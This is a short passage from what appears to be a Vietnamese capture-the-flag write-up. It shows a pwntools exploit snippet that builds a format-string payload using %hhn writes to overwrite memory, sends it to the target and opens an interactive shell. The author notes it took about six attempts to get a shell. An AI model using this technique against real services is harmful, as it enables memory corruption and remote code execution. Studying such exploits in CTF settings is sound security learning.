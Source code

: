 ```python
    temp = sort[0] - 20
if(sort[1]-sort[0] > 50):
    temp1 = sort[1] - 30


payload  = f"%20c%{temp}c%16$hhn".encode()
payload += f"%30c%{temp1-sort[0]}c%17$hhn".encode()
payload += f"%{sort[2]-sort[1]}c%18$hhn".encode()

payload  = payload.ljust(48,b'a')
payload += flat(
    package[sort[0]],
    package[sort[1]],
    package[sort[2]],
)
input()
p.sendlineafter(b'>> ',payload)
p.interactive()

```

mình mất tầm 6 lần để get_shell :v  

![image](https://hackmd.io/_uploads/BJWb8h-Eke.png)
